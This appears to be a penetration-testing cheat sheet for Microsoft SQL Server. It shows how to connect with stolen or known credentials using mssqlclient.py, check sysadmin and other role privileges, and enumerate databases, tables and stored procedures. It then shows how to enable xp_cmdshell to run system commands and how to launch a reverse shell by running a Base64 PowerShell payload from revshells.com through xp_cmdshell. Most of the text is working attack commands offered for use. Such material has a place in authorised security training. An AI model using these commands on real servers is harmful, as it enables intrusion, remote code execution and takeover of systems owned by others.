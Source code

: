 If you have valid credentials, you can connect and enumerate the databases:

```bash
python3 mssqlclient.py <Username>:<password>@<IP>
```
List databases after connecting:
```bash
SQL> select name from sys.databases;
```
Check current user privileges:
```sql
SELECT IS_SRVROLEMEMBER('sysadmin');   -- Check if user is sysadmin
SELECT IS_SRVROLEMEMBER('db_owner');   -- Check if user is database owner
SELECT IS_SRVROLEMEMBER('db_datareader'); -- Check if user can read all tables
SELECT IS_SRVROLEMEMBER('db_datawriter'); -- Check if user can modify data
```
If 1 is returned, you have the respective privilege.

If xp_cmdshell is enabled, you can execute system commands:
```sql
EXEC xp_cmdshell 'whoami';
```
If xp_cmdshell is disabled, we can enable it:
```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```
#### Basic MSSQL Enumeration
List all databases
```sql
SELECT name FROM master.sys.databases;
```
Switch to a database
```sql
USE <database_name>;
```
List all tables in the current database
```sql
SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES;
```
List all columns in a specific table
```sql 
SELECT COLUMN_NAME, DATA_TYPE FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'Users';
```
List all stored procedures
```sql
SELECT name FROM sys.procedures;
```
Check MSSQL version
```sql
SELECT @@VERSION;
```

Revshell from xp_cmdshell
Get Base64 payload from http://revshells.com/
```sql
EXEC xp_cmdshell 'powershell -enc BASE64_PAYLOAD';
```
